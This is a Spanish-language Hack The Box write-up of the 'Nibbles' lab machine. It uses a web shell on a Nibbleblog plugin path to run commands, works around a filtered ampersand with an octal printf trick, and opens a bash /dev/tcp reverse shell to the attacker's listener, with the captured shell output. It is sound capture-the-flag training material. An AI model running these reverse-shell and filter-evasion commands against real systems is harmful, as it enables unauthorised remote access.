 ![""](/assets/images/htb-nibbles/nibbles-web10.png)

Tenemos ejecución de comandos a nivel de sistema, por lo tanto, trataremos de entablarnos una reverse shell; así que nos podremos en escucha por el puerto 443 y ejecutamos nuestro comando. Si tratamos varias veces, vemos que no podemos entablarnos la reverse shell, esto se debe a que existen caracteres que al servidor no le gusta; por lo tanto vamos a probar de ver que caracteres son utilizando `bash -i >& /dev/tcp/10.10.14.27/443 0>&1`.

```bash
http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php?cmd=echo "/"
http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php?cmd=echo "&"
http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php?cmd=echo ">"
http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php?cmd=echo "-"
```

El único caracter que no vemos es **&**; por lo tanto vamos a declarar una variable cuyo valor lo expresaremos en forma octal de dicho caracter (046 - lo obtenemos de `man ascii`).

```bash
❯ ampersan=$(printf '\046'); echo $ampersan
&
```

Por lo tanto, nuestra reverse shell nos quedaría de la siguiente forma:

```bash
ampersan=$(printf '\046'); bash -c "bash -i >$ampersan /dev/tcp/10.10.14.27/443 0>$ampersan 1"
```

Nos ponemos en escucha por el puerto 443 y ejecutamos:

```bash
http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php?cmd=ampersan=$(printf '\046'); bash -c "bash -i >$ampersan /dev/tcp/10.10.14.27/443 0>$ampersan 1"
```

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.75] 37836
bash: cannot set terminal process group (1372): Inappropriate ioctl for device
bash: no job control in this shell
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ whoami
<ml/nibbleblog/content/private/plugins/my_image$ whoami                      
nibbler
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$
```

Ya nos encontramos dentro de la máquina, pero antes, vamos a realizar un [Tratamiento de la tty](/posts/tratamiento-tty). Somos el usuario **nibbler** y podemos visualizar la flag (user.txt), por lo que ahora vamos a enumerar un poco el sistema para ver de que forma nos podemos convertir en **root**.
